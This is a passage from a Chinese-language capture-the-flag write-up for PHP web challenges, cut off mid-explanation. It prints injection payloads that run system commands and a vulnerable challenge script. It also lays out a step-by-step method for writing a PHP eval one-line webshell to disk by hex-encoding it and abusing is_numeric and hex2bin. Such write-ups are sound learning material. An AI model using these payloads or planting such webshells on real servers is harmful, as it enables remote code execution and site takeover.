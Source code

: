 100非预期解2

```
因为过滤的字符比较少，所以可以直接执行命令。
方法不固定，在此聚两个例子
v1=1&v2=?><?php echo `ls`?>/*&v3=;*/
v1=1&v2=-system('ls')-&v3=-1;
```

## 102-103 

```php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?> 

```

搬运师傅们的吧

先来说下题目本意
 is_numeric在php5的环境中，是可以识别十六进制的，也就是说，如果传入v2=0x66也是可以识别为数字的。

```php
var_dump(is_numeric("0x66"));  php5的环境下返回true  php7返回false
```

之后经过截断我们就得到了16进制，而且是不带0x的，这时候就可以通过调用函数hex2bin将16进制转换成字符串从而写入木马文件。（hex2bin如果参数带0x会报错）
 具体做法：
 首先将我们的一句话编码成16进制

```
<?php eval($_POST[1]);?>
0x3c3f706870206576616c28245f504f53545b315d293b3f3e
```

接着直接传入v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
 post:v1=hex2bin
 即可完成木马的写入。

本地测试成功写入木马。
 但是该题环境没有设置好用的是php7，所以我们还是得找到另外一种方法绕过。
 虽然文件内容不好控制，但是可以利用伪协议将内容进行编码转换。
 所以如果能找到一条php语句经过base64编码，在转换为16进制之后全部都是数字不就可以通过了吗？
 也就是说
